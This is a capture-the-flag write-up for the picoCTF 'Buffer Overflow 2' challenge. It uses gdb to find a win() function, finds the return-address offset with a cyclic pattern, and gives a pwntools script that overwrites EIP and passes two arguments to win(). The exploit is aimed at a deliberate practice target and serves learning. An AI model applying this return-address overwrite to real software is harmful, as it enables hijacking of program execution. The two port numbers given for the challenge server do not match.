

# Buffer Overflow 2
## Description
This time you'll need to control the arguments to the function you return to! Can you get the flag from this program?
You can view source here. And connect with it using `nc saturn.picoctf.net 58139`

## Solution
We have to find the offset of the return address and then overwrite it with the address of the win() and then pass the two arguments to the function in order to get the flag.

So to get the address of the win() function we can use the following command:
```bash
# First we have to make the program executable
chmod +x vuln

# Then we can use the following command
gdb ./vuln
```

To get a look of all the functions in the program we can use the following command:
```bash
(gdb) info functions
All defined functions:

0x08049000  _init
0x080490e0  printf@plt
0x080490f0  gets@plt
0x08049100  fgets@plt
0x08049110  getegid@plt
0x08049120  puts@plt
0x08049130  exit@plt
0x08049140  __libc_start_main@plt
0x08049150  setvbuf@plt
0x08049160  fopen@plt
0x08049170  setresgid@plt
0x08049180  _start
0x080491c0  _dl_relocate_static_pie
0x080491d0  __x86.get_pc_thunk.bx
0x080491e0  deregister_tm_clones
0x08049220  register_tm_clones
0x08049260  __do_global_dtors_aux
0x08049290  frame_dummy
0x08049296  win
0x08049338  vuln
0x08049372  main
0x080493f0  __libc_csu_init
0x08049460  __libc_csu_fini
0x08049465  __x86.get_pc_thunk.bp
0x0804946c  _fini
```

As we can see, the address of the win() function is `0x08049296`.

Now we have to find the offset of the EIP register. To do that we can use the following command to create a cyclic pattern:
```bash
padding = cyclic(200)
print(padding)

# Output:
# aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

This pattern is then saved in a file called `pattern.txt`.

Back inside the gdb we can use the following command to send the cyclic pattern to the program:
```bash
(gdb) r < pattern.txt
```


As we can see, the EIP register is overwritten with `0x62616164` which is the address of the `daab` in the cyclic pattern.

To exploit this vulnerability we can use the following script to create the payload:
```python
from pwn import *

# Inserting the EIP value
pattern = cyclic(cyclic_find('daab'))

# Filling the EIP with a function call address for Win(), containing the flag.
eip = p32(0x08049296)

# Creating padding
padding = b"CCCC"  # Padding of 4 bytes

# Adding the Arguments 
a = p32(0xCAFEF00D)  # 0xCAFEF00D
a += p32(0xF00DF00D)  # 0xF00DF00D

# Creating the payload
payload = pattern + eip + padding + a
print(payload)

r = remote('saturn.picoctf.net', 60583)
r.recvuntil(b"Please enter your string: \n")
r.sendline(payload)
r.interactive()
```

Padding of 4 bytes is added to make sure that the arguments are passed to the function, and not overwritten by the return address. The arguments has to be in little endian format, so we use the `p32()` function to convert them to little endian.

And just like that we get the flag!
